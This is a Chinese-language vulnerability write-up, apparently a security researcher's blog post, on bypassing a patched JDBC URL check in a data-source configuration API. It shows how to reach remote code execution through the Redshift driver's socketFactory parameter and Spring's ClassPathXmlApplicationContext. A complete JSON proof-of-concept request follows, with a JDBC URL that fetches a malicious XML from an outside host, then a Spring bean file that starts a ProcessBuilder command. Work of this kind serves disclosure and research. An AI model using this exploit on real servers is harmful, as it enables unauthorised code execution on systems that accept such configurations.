









> tips: 2025 年刚上班写的

### 思路

在上个版本的 patch 中



在这里判断了必须有固定的开头，但其实还有个类没有做这个过滤



就是 H2。那我们的思路就转变成了能不能利用 H2 做 type 类型，来指定 driver 进行 rce。

答案是可以的。



在 redshift 里，可以看到他的过滤参数。这是因为



他会接受一个类名和参数名来进行实例化。那我们可以使用 ClassPathXmlApplicationContext 构造恶意的 xml 进行 RCE。

### 踩坑点



一开始我注意到 driver 驱动已经被直接变成 redshift 的驱动了，但是 conn 显示是 null 的。可以打个断点看看，他进去的却是



H2 的 jdbc。这是因为



首先在这里连接的时候，会要求传进来个 url 格式必须是 `jdbc:redshift`。那我们就可以按照原来的思路，因为 configuration 都是用 jackson 进行反序列化解析的，回显的 getJdbc 我们直接传入 jdbc 变量覆盖掉就好。

poc 如下：

```json
{
  "dataBase": "",
  "driver": "com.amazon.redshift.jdbc42.Driver",
  "jdbcUrl": "jdbc:redshift://127.0.0.1:6666/testdb;socketFactory=org.springframework.context.support.FileSystemXmlApplicationContext;socketFactoryArg=http://127.0.0.1:5525/exp.xml",
  "urlType": "jdbcUrl",
  "sshType": "password",
  "extraParams": "",
  "username": "",
  "password": "",
  "host": "",
  "authMethod": "",
  "port": 0,
  "initialPoolSize": 5,
  "minPoolSize": 5,
  "maxPoolSize": 5,
  "queryTimeout": 30,
  "connectionType": "sid",
  "jdbc": "jdbc:redshift://127.0.0.1:5432/test/?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://172.16.76.225:5525/exp.xml&"
}
```

恶意的 xml 如下：

```xml
<beans
    xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://www.springframework.org/schema/beans
    http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>touch</value>
                <value>/tmp/rce</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

能够成功接到请求



成功 rce


